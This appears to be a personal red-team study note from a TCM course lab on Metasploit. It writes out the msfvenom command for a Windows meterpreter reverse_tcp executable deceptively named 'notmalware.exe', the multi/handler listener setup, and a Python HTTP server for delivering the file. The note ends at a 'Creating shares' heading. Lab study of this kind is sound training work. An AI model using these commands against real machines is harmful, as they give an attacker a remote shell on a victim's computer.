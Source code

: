 #tool-red/exploitation

https://www.metasploit.com/n

https://docs.rapid7.com/metasploit/installing-the-metasploit-framework/

# Documentation
## TCM Demo

**Create the reverse_tcp malware for the windows machine:**
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.128 LPORT=4444 -f exe -o notmalware.exe`

**Then start up metasploit to run the listerner:**

`msfconsole`

within msfconsole

`use exploit/multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`
`set LHOST [net_int]`
`set LPORT 4444`
`exploit`

**Metasploit will now create a listener for the payload**

within `/home/tcp/malware` **create a python3 simple server** to download the malware on the  windows machine
`python3 -m http.server 8000`

On Windows machine enter in the http server:
![[Pasted image 20250106164645.png]]

### Creating shares
